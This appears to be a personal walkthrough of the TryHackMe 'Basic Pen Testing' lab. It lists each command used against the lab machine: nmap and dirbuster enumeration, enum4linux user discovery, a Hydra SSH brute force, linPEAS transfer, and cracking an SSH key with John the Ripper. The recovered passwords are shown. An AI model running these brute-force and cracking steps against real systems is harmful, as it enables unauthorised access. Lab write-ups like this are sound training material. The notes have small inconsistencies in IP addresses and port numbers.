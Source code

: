 # Matheus Jesus 31-03-2020

## Try Hack Me - [Basic Pen Testing](https://tryhackme.com/room/basicpentestingjt)

### IP 10.10.236.222

#### 1. Net Scan

nmap -sC -sV -oN nmap_initial 10.10.73.27

* Open Ports

```text
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
39/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
```

##### WEB SERVICE ON http://10.10.73.27

##### Find webservice Routes

dirbuster -r dirbuster_initial.txt -u http://10.10.73.27
with list /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt

Found **/development** route

/development/dev.txt

```text
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```

/development/j.txt

```text
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```

#### 2. SMB Find Users

Try to find username through SMB application layer
enum4linux -a 10.10.73.27 | tee enum4linux.log
Users found

```text
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
```

#### 3. Brute Force Password

Brute Force Jan's password through SSH Hydra
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.73.27

```text
[22][ssh] host: 10.10.73.27   login: jan   password: armando
```

#### 4. Access Jan User

Login jan user with ssh jan@10.10.73.27

* access /home/kay
* found a pass.bak file

#### 5. Privilege Escalation

Get Privilege Escalation exploits

using linPEAS
Copy script over to the machine
scp /opt/linPEAR/linpeas.sh jan@10.10.73.27:/dev/shm

#### 6. RSA Certificate Cracking

Under /home/kay
there is a hidden folder .ssh
inside there is it's RSA certificate 

use [John The Ripper](https://github.com/magnumripper/JohnTheRipper)

/run/ssh2john.py RSA > forjohn.txt
/run/john forjohn.txt --wordlist=/usr/share/wordlists/rockyou.txt

Found password  **beeswax** for user Kay

#### 7. Access Kay User

access kay user
ssh -i kay_rsa kay@10.10.73.27
password beeswax

ls to pass.bak
cat pass.bak

DONE!!!
